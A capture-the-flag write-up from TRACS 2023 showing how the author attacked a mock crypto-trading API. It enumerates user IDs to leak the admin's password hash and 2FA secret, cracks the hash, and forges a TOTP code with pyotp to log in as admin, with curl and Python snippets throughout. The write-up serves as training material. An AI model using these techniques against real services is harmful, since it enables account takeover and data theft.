 ```yaml
---
layout: writeup
category: TRACS2023
chall_description: 
points: 150
solves: 16
tags: Web API
date: 2023-12-13
comments: false
---
```


## ## Challenge Description

This is a Web API Challenge from the event TRACS 2023 (Tournoi de Renseignement et d'Analyse de CentraleSupélec). It was such a great experience and I have learnt a lot from it, so here is a solution for a challenge. However we are not allowed to take photos during the event and I also forgot to snip the screen, so I dont have many photos to show, but the files I acquired during the challenge.

To begin with, we have a cryptocurrency trading website with API, and we have to investigate a suspect of EvilCorp who is believed to be active on this site. 

## ## Solution

1. #### Flag 1: Account balance

   The first flag is quite simple: we have to login with given credentials: `emo@trade.local:demo` at the endpoint /api/login and get the account balance.

   After sending login request:

   ```bash
   $ curl -X POST http://nexicoins.tracs.viarezo.fr/api/login -H 'Content-Type: application/json' -d '{"email":"demo@trade.local", "password": "demo"} '
   {"access_token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTcwMTUyMTIwNCwianRpIjoiM2I0MWY0ZWYtMGZjZS00NWQ5LTg2YTMtMTNiNjFjMjQ0ZGUzIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6MSwibmJmIjoxNzAxNTIxMjA0LCJleHAiOjE3MDE1MjIxMDR9.M6Yv8y2wHRGpHt82Kw66Qt51xyY7scrw7blClXBIIic"}
   ```

   We got a access_token, which is a JWT. To get the balance I use this code (It's my teammate [Kaiba404](congkhainguyen.github.io):

   ```python
   import requests
   
   url = "http://nexicoins.tracs.viarezo.fr/api/account/balance"
   access_token = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTcwMTUyMTIwNCwianRpIjoiM2I0MWY0ZWYtMGZjZS00NWQ5LTg2YTMtMTNiNjFjMjQ0ZGUzIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6MSwibmJmIjoxNzAxNTIxMjA0LCJleHAiOjE3MDE1MjIxMDR9.M6Yv8y2wHRGpHt82Kw66Qt51xyY7scrw7blClXBIIic"
   
   headers = {
       "Authorization": f"Bearer {access_token}"
   }
   
   response = requests.get(url, headers=headers)
   
   if response.status_code == 200:
       # Request was successful
       print("Response:", response.json())
   else:
       # Request failed
       print(f"Error: {response.status_code}, {response.text}")
   ```

   And we got the first flag, which is the balance of the account demo 2.47$

2. #### Flag 2: Password hash of user admin

   While playing around with the endpoint /api/account/infos, I realized that this will return all infomation of our current account (id, email, hash, 2FA activated or not, balance, what type of coin and quantities). However, with Burp Suite, I can see a Header in the reponse packet `Location: /api/account/infos?id=1 `, and the id of user `demo` is 1.  I tried with id 0 but it doesnt exist, so after some tries, I know there are 1035 users in the database.

   So we can fuzz the endpoint with numbers and I guess the dev hid the admin among the normal one. To do this I used Burp Suite Intruder, with a wordlist 1-1035 and filter the result with `admin`. And this worked! At id 852 we have admin@trace.local and its hash:

   ```
   #PASSWORD admin: id 852 admin@trade.local : 2dab208fb73fb1e9444dfb9981ae7c71f0c54fdd746292db55b93cf880d6facf  
   #2FA: KFGWCURIIJDT6627K5CHAQ3VJ56UU332PNJHE2JXKFMDG4LBJVRQU
   ```

   so the flag is the hash we found.

   A bit curious, I tried to crack the hash and found the actual password of `admin:5874bon1440rev21`:

   ![image-20231215142147429](../../../\assets\CTFs\TRACS2023\hash_admin)

   We also have a page for /api/admin, however it was locked by a http authentication (.htpasswd), but now we can access to it and find out there exist 2 endpoint for `admin` and `admin` only: /api/admin/transactions and /api/admin/users

3. #### Flag 3: Marie Honnette Last IP address

   The suspect we need to investigate named Marie Honnette, and we can find her information the same way we did with admin:

   ```json
   {
   	"role": "user", 
   	"email": "marie.honnette@evilottery.ev", 
       "password": 		"4c504c9d0dce1700ae57a16147074820c0745b005bddcfb4a876a54c38389046", 	"2FA": "None", 
    	"balance": "307.28", 
   	 "stocks": [{"code": "HWN", "qty": 13.540588842504697}, {"code": "CYI", "qty": 3.444808330834581}, {"code": "TQK", "qty": 6.046132874644536}, {"code": "OUT", "qty": 16.35328518715449}, {"code": "THD", "qty": 9.108755215289444}, {"code": "OQN", "qty": 10.812927301654812}, {"code": "RLI", "qty": 18.653448986299026}, {"code": "JGD", "qty": 12.589059350125865}, {"code": "EYB", "qty": 5.932961914189468}]
   }
   ```

   Since we have the credential of admin, I know we have to take advantage of that, so I tried to login as admin, however this account's NFA was activated, and my attempt was failed because I had no TOPT.

   I had no idea how does it work to be honest, so I did some research about it: 

   > TOTP(Time-based One-Time Password ) is a type of password that are generated based on the time and a secret. It is the same way we received the OTP when we try to login into our Google account (or other services with 2FA) with a 6-digit code to verify ourselves. TOTP will expire after a moment

   And we've already had the 2FA secret of the user admin! So all we have to do is forging a TOTP, with the current time, and use it to login as admin. So I write the code bellow:

   ```python
   import pyotp
   import time
   from datetime import datetime
   
   def generate_totp_code(secret, time):
       totp = pyotp.TOTP(secret)
       time = int(time.timestamp())
       return totp.at(time)
   
   secret = "KFGWCURIIJDT6627K5CHAQ3VJ56UU332PNJHE2JXKFMDG4LBJVRQU"
   time = datetime(2023, 12, 2, 20, 15, 0)  
   totp = generate_totp_code(secret,time)
   
   print(totp)
   ```

   

And we got the access_token of the `admin`! Great!

So now we can access to /api/admin/users to collect information of all users of the system, and look up for Marie Honnette and voilà:

![image-20231215142147429](../../../\assets\CTFs\TRACS2023\tracs_marie_ip.png)

Here is the flag last_connection_ip : `10.30.95.127`



And that's all for this challenge. Quite interesting and I have learnt more about 2FA. Thank you for reading and see you around!

Happy Hacking!
